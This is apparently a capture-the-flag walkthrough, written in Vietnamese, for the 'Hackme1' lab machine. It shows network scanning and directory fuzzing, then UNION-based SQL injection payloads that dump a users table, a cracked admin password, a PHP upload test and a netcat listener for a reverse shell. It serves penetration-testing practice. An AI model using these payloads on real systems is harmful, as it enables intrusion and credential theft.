 # Hackme1
***

### Network Scanning

Đầu tiên tìm địa chỉ ip mục tiêu

```sudo netdiscover -i eth0 -r 192.168.169.0/24```

![](images/1.png)

**Target IP: 192.168.169.139**

Tiếp theo scan các dịch vụ và cổng đang mở

```sudo nmap -sV -O 192.168.169.139```

![](images/2.png)

+ Port 22: SSH
+ Port 80: Apache httpd 2.4.34

### ENUMERATION

Discovery

```ffuf -w /usr/share/wordlists/dirb/common.txt -e .php,.zip,.txt -u http://192.168.169.139/FUZZ```

![](images/7.png)

Thử truy cập vào port 80

![](images/3.png)

Hiện thị một trang login và sign up

![](images/4.png)

Thử đăng nhập, hiện giao diện cho phép tìm kiếm

![](images/5.png)

![](images/6.png)

Thử SQLi

```' UNION SELECT null,null,null-- a```

![](images/8.png)

```' UNION SELECT null,table_name,null FROM information_schema.tables-- a```


![](images/9.png)

Tìm thấy một bảng ```users``` 

```' UNION SELECT null,column_name,data_type FROM information_schema.columns WHERE table_name='users'-- a ```

![](images/10.png)

```' UNION SELECT user,pasword,name FROM users-- a```

![](images/11.png)

Thu được một bảng hash


![](images/12.png)

Sau khi crack password thu được mật khẩu ```superadmin:Uncrackable```

Sau khi đăng nhập với tài khoản ```superadmin``` được điều hướng tới trang ```welcomeadmin.php```

![](images/13.png)

Trang web cho biết upload file, thử upload file test.php

```<?php phpinfo(); ?>```

Sau khi truy cập thì thấy lệnh ```phpinfo()``` được thực thi, tiếp theo có thể thực hiện upload 1 reverse .

```nc -lvnp 1234```

![](images/15.png)

Tìm thấy một file thú vị được set quyền SUID

![](images/16.png)

## COMPLETE!!!